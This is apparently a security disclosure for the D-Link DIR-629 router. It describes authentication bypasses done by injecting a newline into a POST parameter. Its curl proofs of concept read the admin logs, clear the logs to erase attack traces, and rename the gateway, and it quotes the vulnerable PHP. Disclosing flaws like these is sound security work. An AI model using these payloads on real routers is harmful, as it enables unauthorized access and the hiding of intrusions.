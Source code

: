# DIR-629

### 0X01 
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

POC

``` 
curl http://[ip]:[port]/log_get.php -d "aaa=%0aAUTHORIZED_GROUP=0"
```

Attackers can get the log files of Admin

![image-20191101091458421](https://github.com/Cyc1eC/D-Link/blob/master/DIR-629/image-20191101091458421.png) 

if attackers send the data:

``` 
curl http://[ip]:[port]/log_clear.php -d "aaa=%0aAUTHORIZED_GROUP=0"
```

it will clear the log.

### 0X02
The attacker can arbitrarily tamper with GWNAME.
code in shareport.php

```php
if ($AUTHORIZED_GROUP < 0)
{
	$result = "FAIL";
	$reason = i18n("Permission deny. The user is unauthorized.");
}
else
{
	if ($_POST["action"] == "sethostname")
	{
		$value = $_POST["value"];
		if ($value != "")
		{
			set("/device/gw_name", $value);
			event("SHAREPORT.SETGWNAME");
			$RESULT = "OK";
			$REASON = "";					
		}
	}	
	else	fail(i18n("Unknown ACTION!"));
}
```

Attackers can set aaa=%0aAUTHORIZED_GROUP=1 to bypass the user check，and set the action=sethostname,value=Cyc1e,then we can change the GWNAME to Cyc1e.

POC:

``` 
curl http://[ip]:[port]/shareport.php -d "aaa=%0aAUTHORIZED_GROUP=1&action=sethostname&value=Cyc1e"
```
![image-20191107215245404](https://github.com/Cyc1eC/D-Link/blob/master/DIR-629/image-20191107215245404.png)
